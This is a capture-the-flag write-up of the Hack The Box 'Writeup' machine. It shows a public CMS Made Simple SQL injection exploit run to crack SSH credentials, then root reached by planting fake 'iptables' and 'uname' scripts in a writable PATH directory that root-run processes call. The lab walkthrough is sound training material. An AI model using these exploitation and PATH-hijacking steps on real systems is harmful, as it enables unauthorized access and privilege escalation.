





# Writeup


## Information Gathering

### Nmap
I start off with a standard nmap scan: 

```console
root@endeavour:~/htb/writeup# nmap -sV -sC -T4 -vv 10.10.10.138 -oA 10-10-10-138
Starting Nmap 7.80 ( https://nmap.org ) at 2019-10-01 17:28 EDT
NSE: Loaded 151 scripts for scanning.
NSE: Script Pre-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 17:28
Completed NSE at 17:28, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 17:28
Completed NSE at 17:28, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 17:28
Completed NSE at 17:28, 0.00s elapsed
Initiating Ping Scan at 17:28
Scanning 10.10.10.138 [4 ports]
Completed Ping Scan at 17:28, 0.07s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 17:28
Completed Parallel DNS resolution of 1 host. at 17:28, 0.02s elapsed
Initiating SYN Stealth Scan at 17:28
Scanning 10.10.10.138 [1000 ports]
Discovered open port 22/tcp on 10.10.10.138
Discovered open port 80/tcp on 10.10.10.138
Completed SYN Stealth Scan at 17:28, 5.17s elapsed (1000 total ports)
Initiating Service scan at 17:28
Scanning 2 services on 10.10.10.138
Completed Service scan at 17:28, 6.09s elapsed (2 services on 1 host)
NSE: Script scanning 10.10.10.138.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 17:28
Completed NSE at 17:28, 1.41s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 17:28
Completed NSE at 17:28, 0.17s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 17:28
Completed NSE at 17:28, 0.00s elapsed
Nmap scan report for 10.10.10.138
Host is up, received echo-reply ttl 63 (0.040s latency).
Scanned at 2019-10-01 17:28:31 EDT for 13s
Not shown: 998 filtered ports
Reason: 998 no-responses
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
| ssh-hostkey: 
|   2048 dd:53:10:70:0b:d0:47:0a:e2:7e:4a:b6:42:98:23:c7 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDKBbBK0GkiCbxmAbaYsF4DjDQ3JqErzEazl3v8OndVhynlxNA5sMnQmyH+7ZPdDx9IxvWFWkdvPDJC0rUj1CzOTOEjN61Qd7uQbo5x4rJd3PAgqU21H9NyuXt+T1S/Ud77xKei7fXt5kk1aL0/mqj8wTk6HDp0ZWrGBPCxcOxfE7NBcY3W++IIArn6irQUom0/AAtR3BseOf/VTdDWOXk/Ut3rrda4VMBpRcmTthjsTXAvKvPJcaWJATtRE2NmFjBWixzhQU+s30jPABHcVtxl/Fegr3mvS7O3MpPzoMBZP6Gw8d/bVabaCQ1JcEDwSBc9DaLm4cIhuW37dQDgqT1V
|   256 37:2e:14:68:ae:b9:c2:34:2b:6e:d9:92:bc:bf:bd:28 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBPzrVwOU0bohC3eXLnH0Sn4f7UAwDy7jx4pS39wtkKMF5j9yKKfjiO+5YTU//inmSjlTgXBYNvaC3xfOM/Mb9RM=
|   256 93:ea:a8:40:42:c1:a8:33:85:b3:56:00:62:1c:a0:ab (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIEuLLsM8u34m/7Hzh+yjYk4pu3WHsLOrPU2VeLn22UkO
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.25 ((Debian))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-robots.txt: 1 disallowed entry 
|_/writeup/
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Nothing here yet.
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

NSE: Script Post-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 17:28
Completed NSE at 17:28, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 17:28
Completed NSE at 17:28, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 17:28
Completed NSE at 17:28, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.35 seconds
           Raw packets sent: 2004 (88.152KB) | Rcvd: 5 (204B)

```
FLooks like we've got **22** and **80** open. I probably want to ignore **22** for now and focus on **80**.

http://10.10.10.138/ shows the following:

  
**Figure 1:** http://10.10.10.138/

### Robots.txt

```console
root@endeavour:~/htb/writeup# curl -i 10.10.10.138/robots.txt
HTTP/1.1 200 OK
Date: Tue, 01 Oct 2019 21:38:03 GMT
Server: Apache/2.4.25 (Debian)
Last-Modified: Wed, 24 Apr 2019 18:17:00 GMT
ETag: "136-5874ab531d112"
Accept-Ranges: bytes
Content-Length: 310
Vary: Accept-Encoding
Content-Type: text/plain

#              __
#      _(\    |@@|
#     (__/\__ \--/ __
#        \___|----|  |   __
#            \ }{ /\ )_ / _\
#            /\__/\ \__O (__
#           (--/\--)    \__/
#           _)(  )(_
#          `---''---`

# Disallow access to the blog until content is finished.
User-agent: * 
Disallow: /writeup/
```
Disallow `/writeup/` - let's go find out what that is:

  
**Figure 2:** 10.10.10.138/writeup/

Each page is a writeup to a few different machines, I don’t immediately see anything in the writeups that is helpful, but I need to remember to check back in if I find any other clues that might point us back.

One thing I notice is that every page except for the original home page has a little message at the bottom:

  
**Figure 3:** Vim. NOT.

The [Wappalyzer](https://www.wappalyzer.com/) Firefox extension shows the `/writeup/` page to be using:

  
**Figure 4:** Wappalyzer

Also, this may be a shitty assumption that I should not be making, the original page says that there is an Eeyore DoS protection script that will ban bad IPs when there are apache 40x errors. I want to not be banned so I am going to limit any dirbustering for now.

### User Flag  

I will start with Apache and look for any 2.4.25 vulnerabilities: [Apache 2.4.17 < 2.4.38 - 'apache2ctl graceful' 'logrotate' Local Privilege Escalation](https://www.exploit-db.com/exploits/46676). Not relevant for initial access, but perhaps we can use this to get root?  
Not much luck with Apache, I didn't find anything that worked in exploitdb. I don’t want to spend more than an hour going deep in what could be a rabbit hole. Time to move onto CMS made simple: In googling around for interesting stuff, I found this: [CVE-2018-10517: CMS Made Simple 2.2.7](https://github.com/0x00-0x00/CVE-2018-10517) 

In the powershell for for this CVE there is an interesting thing:
```powershell
Write-Output "Trying to install exploit module over CMS Made Simple ..."
    $Response = Invoke-WebRequest -Method "POST" -URI "$URL/admin/moduleinterface.php" -WebSession $WebSession -Body $Payload -Headers $Headers
    if($Response.Content -Match "Module imported")
```
So, if I am reading it correctly, it looks like the url root should have `/admin/` after it – let’s try it:

  
**Figure 5:** Admin

Cool, its prompting for authentication. This seems like a thing we should enumerate further. I can't seem to find the version of CMS Made Simple. Let’s just start with the current version: 2.2.11 and exploitdb it [CMS Made Simple <2.2.10 - SQL Injection](https://www.exploit-db.com/exploits/46635)  

Looks like we need to `pip install termcolor` and get a word list, I like to use `rockyou.txt` because its dumb to waste time brute forcing and most other boxes I’ve used also use the same list. Let’s run the exploit and see what we get:

  
**Figure 5:** exploit

```console
root@endeavour:~/htb/writeup# python ./exploit.py -u http://10.10.10.138/writeup --crack -w rockyou.txt

[+] Salt for password found: 5a599ef579066807
[+] Username found: jkr
[+] Email found: jkr@writeup.htb
[+] Password found: 62def4866937f08cc13bab43bb14e6f7
[+] Password cracked: raykayjay9
root@endeavour:~/htb/writeup#
```
That was sweet – it was like a real hackerman movie hack. Where do I use these creds though? There was the http://10.10.10.138/writeup/admin thing but that doesn’t seem to work and neither does the link from the `NetSec Focus Mattermost` link on the `/writeup/` url.

Enumerate dummy, what else can we log into? **SSH**!

```console
root@endeavour:~/htb/writeup# ssh jkr@10.10.10.138
The authenticity of host '10.10.10.138 (10.10.10.138)' can't be established.
ECDSA key fingerprint is SHA256:TEw8ogmentaVUz08dLoHLKmD7USL1uIqidsdoX77oy0.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.138' (ECDSA) to the list of known hosts.
jkr@10.10.10.138's password: 
Linux writeup 4.9.0-8-amd64 x86_64 GNU/Linux

The programs included with the Devuan GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Devuan GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
jkr@writeup:~$ ls
user.txt
jkr@writeup:~$ cat user.txt
d4e49*******************19f978
jkr@writeup:~$ 
```
There we have the user flag. 

### Root Flag

Time to PrivEsc. It’s a linux box, so first things first lets get my favorite recon script to the box – I copied raw from github:

```console
jkr@writeup:~/tmp$ touch linenum.sh
jkr@writeup:~/tmp$ vi linenum.sh 
jkr@writeup:~/tmp$ chmod +x linenum.sh 
jkr@writeup:~/tmp$ ./linenum.sh 

#########################################################
# Local Linux Enumeration & Privilege Escalation Script #
#########################################################
# www.rebootuser.com
# version 0.971

[-] Debug Info
[+] Thorough tests = Disabled


Scan started at:
Tue Oct  1 20:31:23 EDT 2019

[-] Hostname:
writeup


### USER/GROUP ##########################################
[-] Current user/group info:
uid=1000(jkr) gid=1000(jkr) groups=1000(jkr),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),50(staff),103(netdev)


### ENVIRONMENTAL #######################################
[-] Environment information:
SSH_CONNECTION=10.10.14.75 36334 10.10.10.138 22
LANG=en_US.UTF-8
OLDPWD=/home/jkr
XDG_SESSION_ID=168
USER=jkr
PWD=/home/jkr/tmp
HOME=/home/jkr
SSH_CLIENT=10.10.14.75 36334 22
SSH_TTY=/dev/pts/0
MAIL=/var/mail/jkr
SHELL=/bin/bash
TERM=xterm-256color
SHLVL=2
LOGNAME=jkr
XDG_RUNTIME_DIR=/run/user/1000
PATH=/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games
_=/usr/bin/env


[-] Path information:
/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

### SERVICES #############################################
[-] Running processes:
root      1803  0.0  1.5 431184 16096 ?        Sl   17:19   0:03 /usr/bin/python3 /usr/bin/fail2ban-server -s /var/run/fail2ban/fail2ban.sock -p /var/run/fail2ban/fail2ban.pid -b

### INTERESTING FILES ####################################
[-] Useful file locations:
/usr/bin/wget


[-] Can we read/write sensitive files:
-rw-r--r-- 1 root root 1111 Apr 19 04:21 /etc/passwd
-rw-r--r-- 1 root root 582 Apr 19 04:21 /etc/group
-rw-r--r-- 1 root root 767 Jun  3  2018 /etc/profile
-rw-r----- 1 root shadow 805 Apr 19 06:49 /etc/shadow


### SCAN COMPLETE ####################################
```
There are a lot of data to look at here and I spent a lot of time going through it all and making a lot of terrible assumptions. I removed a lot of the results for the sake of not making anyone read through it for no reason. Thinking about what little I know about privesc, the concept of taking over a thing that is running or can run as a more privileged user. This typically requires a trigger to initiate the action. This can be a cron job/scheduled task or some action that I also have control over. I then remembered that Eeyore DoS protection – this must be the fail2ban thing and what do you know, its running as root! 

This piques my interest very much. It is a mechanism that we can use to trigger something to happen – remember I didn’t want to dirb the url?! How can we get control over it? Look at our $PATH:

```console
jkr@writeup:~$ echo $PATH
/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games
```
So now, let’s trigger the dos protection:

```console
root@endeavour:~/htb/writeup# dirb http://10.10.10.138/ /usr/share/dirb/wordlists/common.txt

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Tue Oct  1 21:31:08 2019
URL_BASE: http://10.10.10.138/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://10.10.10.138/ ----
                                                                                                           
(!) FATAL: Too many errors connecting to host
    (Possible cause: COULDNT CONNECT)
                                                                               
-----------------
END_TIME: Tue Oct  1 21:31:16 2019
DOWNLOADED: 19 - FOUND: 0
```
And what our output is in pspy:

```console
2019/10/01 21:35:40 CMD: UID=0    PID=1      | init [2]   
2019/10/01 21:35:44 CMD: UID=0    PID=3635   | /usr/bin/python3 /usr/bin/fail2ban-server -s /var/run/fail2ban/fail2ban.sock -p /var/run/fail2ban/fail2ban.pid -b 
2019/10/01 21:35:44 CMD: UID=0    PID=3637   | grep -q f2b-apache-404[ \t] 
2019/10/01 21:35:44 CMD: UID=0    PID=3636   | /bin/sh -c iptables -w -n -L INPUT | grep -q 'f2b-apache-404[ \t]' 
2019/10/01 21:35:44 CMD: UID=0    PID=3638   | /usr/bin/python3 /usr/bin/fail2ban-server -s /var/run/fail2ban/fail2ban.sock -p /var/run/fail2ban/fail2ban.pid -b 
2019/10/01 21:35:44 CMD: UID=0    PID=3639   | iptables -w -I f2b-apache-404 1 -s 10.10.14.75 -j REJECT --reject-with icmp-port-unreachable 
```
Fail2ban definitely triggers off the dirb, and interestingly iptables also triggers right after – that is what is probably is actually happening (we see my IP @ 10.10.14.75) being rejected. Awesome, so that’s the trigger that I think we get control over. I also noticed that there is a cleanup.pl script that is auto running, my theory is that this is unbanning people after they trigger the ban. This is even more evidence that it is the intended trigger:

```console
2019/10/01 21:36:01 CMD: UID=0    PID=3640   | /usr/sbin/CRON 
2019/10/01 21:36:01 CMD: UID=0    PID=3641   | /usr/sbin/CRON 
2019/10/01 21:36:01 CMD: UID=0    PID=3642   | /bin/sh -c /root/bin/cleanup.pl >/dev/null 2>&1 
2019/10/01 21:37:01 CMD: UID=0    PID=3643   | /usr/sbin/CRON 
2019/10/01 21:37:01 CMD: UID=0    PID=3644   | /usr/sbin/CRON 
2019/10/01 21:37:01 CMD: UID=0    PID=3645   | /bin/sh -c /root/bin/cleanup.pl >/dev/null 2>&1 
```
Another piece of the privesc puzzle, is that we need to make sure that we have control over the thing that we are triggering:

```console
jkr@writeup:/usr/local$ mv bin oldbin
jkr@writeup:/usr/local$ mkdir bin
jkr@writeup:/usr/local$ ls -al
total 68
drwxrwsr-x 11 root staff  4096 Oct  1 21:09 .
drwxr-xr-x 10 root root   4096 Apr 19 04:11 ..
drwxr-sr-x  2 jkr  staff  4096 Oct  1 21:09 bin
drwxrwsr-x  2 root staff  4096 Oct  1 20:42 etc
drwxrwsr-x  2 root staff  4096 Apr 19 04:11 games
drwxrwsr-x  2 root staff  4096 Apr 19 04:11 include
drwxrwsr-x  4 root staff  4096 Apr 24 13:13 lib
lrwxrwxrwx  1 root staff     9 Apr 19 04:11 man -> share/man
drwx-wsr-x  2 root staff 20480 Apr 19 04:11 oldbin
drwx-wsr-x  2 root staff 12288 Apr 19 04:11 sbin
drwxrwsr-x  7 root staff  4096 Apr 19 04:30 share
drwxrwsr-x  2 root staff  4096 Apr 19 04:11 src
```

Cool – so let’s set our trap. On machines like this, where the flag is located shouldn’t ever really be a mystery – user.txt will be in the user’s home directory or desktop and root.txt will be in the root directory or administrator’s desktop. Looking carefully at the pspy output below iptables is a good candidate to replace for our trap because it does not have a clearly defined path, check out PID 3639: 

```console
2019/10/01 21:35:44 CMD: UID=0    PID=3636   | /bin/sh -c iptables -w -n -L INPUT | grep -q 'f2b-apache-404[ \t]' 
2019/10/01 21:35:44 CMD: UID=0    PID=3638   | /usr/bin/python3 /usr/bin/fail2ban-server -s /var/run/fail2ban/fail2ban.sock -p /var/run/fail2ban/fail2ban.pid -b 
2019/10/01 21:35:44 CMD: UID=0    PID=3639   | iptables -w -I f2b-apache-404 1 -s 10.10.14.75 -j REJECT --reject-with icmp-port-unreachable 
```
I want to create "iptables" and put it in my /usr/local/bin/ directory which when 3639 runs will spit out the root flag to a readable directory for me:

```console
create "iptables":
#!/bin/bash
cat /root/root.txt > /home/jkr/root.txt

jkr@writeup:~/tmp$ chmod +x iptables 
jkr@writeup:~/tmp$ cp iptables /usr/local/bin/
```
Lets trigger the eeyore ban script:

```console
root@endeavour:~/htb/writeup# dirb http://10.10.10.138/ /usr/share/dirb/wordlists/common.txt

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Tue Oct  1 21:56:48 2019
URL_BASE: http://10.10.10.138/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://10.10.10.138/ ----
                                                                                                           
(!) FATAL: Too many errors connecting to host
    (Possible cause: COULDNT CONNECT)
                                                                               
-----------------
END_TIME: Tue Oct  1 21:56:56 2019
DOWNLOADED: 13 - FOUND: 0
```
Now that we are banned, but its our iptables, we should have the flag:

```console

jkr@writeup:~$ pwd
/home/jkr
jkr@writeup:~$ ls
tmp  user.txt
```
Didn’t work. What the hell. Typically, I assume that I did something wrong and give it a few more attempts before quitting. This time I was also pretty interested in that root/bin/cleanup/cleanup.pl script.

We are going to use the same procedure as iptables, create a cleanup.pl script that spits out our root flag that we so deserve:

```console
#!/bin/bash
cat /root/root.txt > /home/jkr/root.txt
```
Damnit dude, what the hell. At this point I went from being 100% certain I know what to do. I recheck all my scripts for syntax errors or other stupid things I overlooked. I did not find anything. I went to bed.

New day – thinking about what other things we can trigger. I didn’t see any interesting cron jobs that I could leverage. Let’s look at what happens when I log into the box to begin with by run pspy on one terminal and login with another:

```console
root@endeavour:~/htb/writeup# ssh jkr@10.10.10.138
jkr@10.10.10.138's password: 
Linux writeup 4.9.0-8-amd64 x86_64 GNU/Linux

The programs included with the Devuan GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Devuan GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Wed Oct  2 11:28:15 2019 from 10.10.14.75
```

Our pspy output:

```console
2019/10/02 11:30:48 CMD: UID=0    PID=1      | init [2]   
2019/10/02 11:31:01 CMD: UID=0    PID=6757   | /usr/sbin/CRON 
2019/10/02 11:31:01 CMD: UID=0    PID=6758   | /usr/sbin/CRON 
2019/10/02 11:31:01 CMD: UID=0    PID=6759   | /bin/sh -c /root/bin/cleanup.pl >/dev/null 2>&1 
2019/10/02 11:31:02 CMD: UID=0    PID=6760   | sshd: [accepted]
2019/10/02 11:31:02 CMD: UID=102  PID=6761   | sshd: [net]       
2019/10/02 11:31:07 CMD: UID=0    PID=6762   | sshd: jkr [priv]  
2019/10/02 11:31:07 CMD: UID=0    PID=6763   | sh -c /usr/bin/env -i PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin run-parts --lsbsysinit /etc/update-motd.d > /run/motd.dynamic.new 
2019/10/02 11:31:07 CMD: UID=0    PID=6764   | run-parts --lsbsysinit /etc/update-motd.d 
2019/10/02 11:31:07 CMD: UID=0    PID=6765   | uname -rnsom 
2019/10/02 11:31:07 CMD: UID=0    PID=6766   | sshd: jkr [priv]  
2019/10/02 11:31:09 CMD: UID=1000 PID=6767   | sshd: jkr@pts/1   
2019/10/02 11:31:09 CMD: UID=1000 PID=6768   | -bash 
2019/10/02 11:31:09 CMD: UID=1000 PID=6769   | -bash 
2019/10/02 11:31:09 CMD: UID=1000 PID=6770   | -bash 
2019/10/02 11:31:09 CMD: UID=1000 PID=6771   | -bash 
2019/10/02 11:31:23 CMD: UID=1000 PID=6772   | -bash 
```
It looks like **PID 6763**, **6764** and **6765** do not have absolute paths and run as root, which means we can keep attempting the same technique as before. Let’s try uname. I want to check where its typically located, so I check my machine:

```console
root@endeavour:~# which uname
/usr/bin/uname
```
Setting up the same technique as before:
```console
jkr@writeup:~/tmp$ touch uname
jkr@writeup:~/tmp$ vi uname
jkr@writeup:~/tmp$ cat uname
#!/bin/bash
cat /root/root.txt > /home/jkr/root.txt
jkr@writeup:~/tmp$ chmod +x uname
jkr@writeup:~/tmp$ cp uname /usr/local/bin
```
I log into the box as jkr once more, and nothing:

```conosle
jkr@writeup:~$ ls
tmp  user.txt
```
I decided to check to make sure my file was even still there:

```console
jkr@writeup:~$ ls -al /usr/local/bin/uname
ls: cannot access '/usr/local/bin/uname': No such file or directory
```
The heck, it’s not even there. It must have been deleted somehow. I was sure that I put it there, and the box wasn’t reset at all during the 15 seconds or so between waiting it was deleted somehow. At this point, rather discouraged I made a bash one liner - an infinite loop copying the replacement uname into /usr/local/bin:

```console
while true; do cp /home/jkr/tmp/uname /usr/local/bin/uname; done
```
Log into the box one more time:

```console
root@endeavour:~/htb/writeup# ssh jkr@10.10.10.138
jkr@10.10.10.138's password: 
Linux writeup 4.9.0-8-amd64 x86_64 GNU/Linux

The programs included with the Devuan GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Devuan GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Wed Oct  2 11:56:40 2019 from 10.10.14.75
```
and boom:

```console
jkr@writeup:~$ ls
root.txt  tmp  user.txt
jkr@writeup:~$ cat root.txt 
eeba47*******************d7226
```
We've got the root flag!

# Conclusion

This box seemed pretty straight forward during enumeration, but my assumption that I understood what was happening led me to burning a lot of time on the correct technique but on the wrong thing. It's great to know the rules to checkers, but if you are playing chess instead those don't really help.

